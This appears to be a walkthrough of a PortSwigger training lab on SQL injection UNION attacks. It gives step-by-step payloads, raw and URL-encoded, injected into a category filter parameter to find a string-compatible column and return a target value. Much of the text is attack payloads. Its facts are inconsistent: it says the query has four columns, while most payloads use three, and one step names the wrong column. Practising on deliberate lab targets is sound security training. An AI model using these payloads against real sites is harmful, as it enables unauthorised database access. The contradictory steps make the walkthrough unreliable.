 
# SQL injection UNION attack, finding a column containing text

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

## The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data

#sql_injection_union
___

step 1

click on any category to filter the result and send to repeater

![screnshot](images/lab4_lifestyle_category.jpg)

step 2

here query returns four columns so you have to use `' UNION SELECT NULL,NULL,NULL--` 
`' UNION SELECT NULL,NULL,NULL--` => (URL Encoded) `'+UNION+SELECT+NULL,NULL,NULL--`
add  `'+UNION+SELECT+NULL,NULL,NULL--` at the end 
`/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL--`

![screnshot](images/lab4_lifestyle_null_null_null.jpg)

step 3

since query returns four columns so you have to use
>' UNION SELECT 'a',NULL,NULL,NULL-- 
>' UNION SELECT NULL,'a',NULL,NULL-- 
>' UNION SELECT NULL,NULL,'a',NULL-- 
>' UNION SELECT NULL,NULL,NULL,'a'--

If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:
`Conversion failed when converting the varchar value 'a' to data type int.`

first payload
add `'+UNION+SELECT+'a',NULL,NULL--` at the end
`/filter?category=Lifestyle'+UNION+SELECT+'a',NULL,NULL--`

![screnshot](images/lab4_lifestyle_a_null_null.jpg)

step 4

`/filter?category=Lifestyle'+UNION+SELECT+NULL,'a',NULL--`
you will notice `a` added in the fourth column

![screnshot](images/lab4_lifestyle_null_a_null.jpg)

step 5

since database retrieve string is `'RknAON'` it might be different in your case
replace a with `'RknAON'`
final payload will be `'+UNION+SELECT+NULL,'RknAON',NULL--` 
`/filter?category=Lifestyle'+UNION+SELECT+NULL,'RknAON',NULL--`

![screnshot](images/lab4_lifetyle_a_rknaon_null.jpg)

step 6

to solve the lab copy  `'+UNION+SELECT+NULL,'RknAON',NULL--` 
add at the end of URL press enter your lab will solved

![screnshot](images/lab4_solved_lab.jpg)